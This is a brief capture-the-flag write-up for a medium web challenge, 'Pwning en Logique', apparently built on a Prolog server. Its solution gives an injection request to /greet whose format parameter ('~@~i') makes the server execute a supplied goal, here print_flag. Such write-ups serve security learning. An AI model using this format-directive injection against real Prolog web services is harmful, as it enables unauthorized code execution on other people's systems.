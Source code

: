 # Pwning en Logique
**Category:** Web
**Difficulty:** Medium

## Description

`solved_pwnlog(X) :- '1337haxor'(X).`

## Distribution

## Solution
Log in as either user (guest or AzureDiamond) and make a request to `/greet?format=~@~i&greeting=print_flag`. (`~@` in format interprets the argument as a goal to execute and `~i` just ignores the argument)